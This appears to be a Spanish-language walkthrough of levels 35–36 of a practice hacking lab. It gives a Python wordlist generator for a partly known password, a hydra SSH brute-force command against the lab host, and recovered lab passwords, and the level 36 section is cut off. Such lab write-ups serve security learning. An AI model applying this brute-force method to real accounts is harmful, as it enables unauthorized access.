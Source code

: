 >[!warning] No consideres los caracteres `\n`

>[!tip] maia
>- h1hnDPHpydEjoEN



**Laboratorio 35**

**The user gloria has forgotten the last 2 characters of her password \... They only remember that they were 2 lowercase letters.**

El objetivo es generar los dos últimos dígitos de la contraseña. Además, recibimos una útil pista, las dos siguientes letras son minúsculas. Así pues, tenemos 26×26 combinaciones posibles.

Primero veamos cual es la parte conocida del password

```sh
ls --al

cat forget
```

Creamos un script

```python
incomplete_passwd = "v7xUVE2e5bjUc"

lower = 'abcdefghijklmnopqrstuvwxyz'


with open('passwd.txt', 'w') as file:
    for char1 in lower:
        for char2 in lower:
            file.write(incomplete_passwd + char1 + char2 + '\n')
```

Con el archivo resultante podemos realizar un ataque de fuerza bruta utilizando hydra.

```sh
hydra -l gloria -P paswd.txt ssh://venus.hackmyvm.eu:5000
```


>[!tip] gloria
> v7xUVE2e5bjUcxw


**Laboratorio 36**

**User alora likes drawings, that\'s why she saved her password as \...**

Veamos en que archivo podemos encontrar:

```sh
ls --la
```

Hay un archivo llamado image, veamos ¿Qué tipo de archivo es?

```sh
file image
```
